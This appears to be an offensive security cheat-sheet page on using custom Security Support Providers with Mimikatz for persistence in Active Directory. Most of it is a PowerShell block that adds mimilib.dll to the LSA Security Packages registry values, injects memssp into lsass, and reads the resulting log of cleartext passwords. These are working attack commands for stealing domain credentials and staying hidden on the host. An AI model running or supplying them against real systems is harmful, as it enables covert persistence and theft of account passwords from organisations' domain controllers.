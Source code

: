 # Custom SSPs

A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection. here we are using custom SSPs for persistence in Active Directory with Mimikatz.

Mimikatz provdes custom SSP  `mimilib.dll`, This SSP logs local logons, service account and machine aacount passwords in clear text on the target server.

```
# First way: drop mimilib.dll to system32 and add mimilib to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | Select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages

# Second way: using mimikatz to inject into lsass (unstable with Server 2016)
Invoke-Mimikatz -Command '"misc::memssp"'

# All logons on the DC are logged to C:\Windows\system32\kiwissp.log
Get-Content C:\Windows\system32\kiwissp.log
```
